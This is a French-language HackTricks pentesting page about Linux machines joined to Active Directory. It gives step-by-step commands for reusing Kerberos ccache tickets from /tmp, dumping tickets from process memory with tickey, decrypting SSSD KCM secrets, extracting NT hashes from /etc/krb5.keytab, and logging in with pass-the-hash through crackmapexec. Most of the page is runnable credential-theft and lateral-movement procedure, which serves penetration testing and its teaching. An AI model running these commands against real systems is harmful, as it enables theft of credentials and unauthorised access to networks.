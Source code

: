 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Une machine linux peut également être présente dans un environnement Active Directory.

Une machine linux dans un AD pourrait **stocker différents tickets CCACHE dans des fichiers. Ces tickets peuvent être utilisés et abusés comme tout autre ticket kerberos**. Pour lire ces tickets, vous devez être le propriétaire du ticket ou **root** sur la machine.

## Enumeration

### Enumeration AD depuis linux

Si vous avez accès à un AD sous linux (ou bash sous Windows), vous pouvez essayer [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) pour énumérer l'AD.

Vous pouvez également consulter la page suivante pour apprendre **d'autres façons d'énumérer l'AD depuis linux** :

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA est une **alternative** open-source à Microsoft Windows **Active Directory**, principalement pour les environnements **Unix**. Il combine un **annuaire LDAP** complet avec un centre de distribution de clés Kerberos MIT pour une gestion similaire à Active Directory. Utilisant le système de certificats Dogtag pour la gestion des certificats CA et RA, il prend en charge l'authentification **multi-facteurs**, y compris les cartes intelligentes. SSSD est intégré pour les processus d'authentification Unix. En savoir plus à ce sujet dans :

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Jouer avec les tickets

### Pass The Ticket

Sur cette page, vous allez trouver différents endroits où vous pourriez **trouver des tickets kerberos à l'intérieur d'un hôte linux**, sur la page suivante, vous pouvez apprendre comment transformer ces formats de tickets CCache en Kirbi (le format que vous devez utiliser sous Windows) et aussi comment effectuer une attaque PTT :

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### Réutilisation des tickets CCACHE depuis /tmp

Les fichiers CCACHE sont des formats binaires pour **stocker les identifiants Kerberos** et sont généralement stockés avec des permissions 600 dans `/tmp`. Ces fichiers peuvent être identifiés par leur **format de nom, `krb5cc_%{uid}`,** correspondant à l'UID de l'utilisateur. Pour la vérification des tickets d'authentification, la **variable d'environnement `KRB5CCNAME`** doit être définie sur le chemin du fichier de ticket souhaité, permettant sa réutilisation.

Listez le ticket actuel utilisé pour l'authentification avec `env | grep KRB5CCNAME`. Le format est portable et le ticket peut être **réutilisé en définissant la variable d'environnement** avec `export KRB5CCNAME=/tmp/ticket.ccache`. Le format de nom de ticket Kerberos est `krb5cc_%{uid}` où uid est l'UID de l'utilisateur.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### Réutilisation de tickets CCACHE à partir du keyring

**Les tickets Kerberos stockés dans la mémoire d'un processus peuvent être extraits**, en particulier lorsque la protection ptrace de la machine est désactivée (`/proc/sys/kernel/yama/ptrace_scope`). Un outil utile à cet effet se trouve à [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey), qui facilite l'extraction en s'injectant dans des sessions et en vidant les tickets dans `/tmp`.

Pour configurer et utiliser cet outil, les étapes ci-dessous sont suivies :
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Cette procédure tentera d'injecter dans diverses sessions, indiquant le succès en stockant les tickets extraits dans `/tmp` avec une convention de nommage de `__krb_UID.ccache`.


### Réutilisation des tickets CCACHE à partir de SSSD KCM

SSSD maintient une copie de la base de données au chemin `/var/lib/sss/secrets/secrets.ldb`. La clé correspondante est stockée en tant que fichier caché au chemin `/var/lib/sss/secrets/.secrets.mkey`. Par défaut, la clé n'est lisible que si vous avez des permissions **root**.

L'invocation de \*\*`SSSDKCMExtractor` \*\* avec les paramètres --database et --key analysera la base de données et **décryptera les secrets**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
Le **blob de cache d'identifiants Kerberos peut être converti en un fichier CCache Kerberos utilisable** qui peut être passé à Mimikatz/Rubeus.

### Réutilisation de ticket CCACHE à partir de keytab
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extraire des comptes de /etc/krb5.keytab

Les clés des comptes de service, essentielles pour les services fonctionnant avec des privilèges root, sont stockées en toute sécurité dans les fichiers **`/etc/krb5.keytab`**. Ces clés, semblables à des mots de passe pour les services, nécessitent une confidentialité stricte.

Pour inspecter le contenu du fichier keytab, **`klist`** peut être utilisé. L'outil est conçu pour afficher les détails des clés, y compris le **NT Hash** pour l'authentification des utilisateurs, en particulier lorsque le type de clé est identifié comme 23.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Pour les utilisateurs de Linux, **`KeyTabExtract`** offre la fonctionnalité d'extraire le hachage RC4 HMAC, qui peut être utilisé pour le réemploi du hachage NTLM.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
Sur macOS, **`bifrost`** sert d'outil pour l'analyse des fichiers keytab.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
En utilisant les informations de compte et de hachage extraites, des connexions aux serveurs peuvent être établies en utilisant des outils comme **`crackmapexec`**.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Références
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
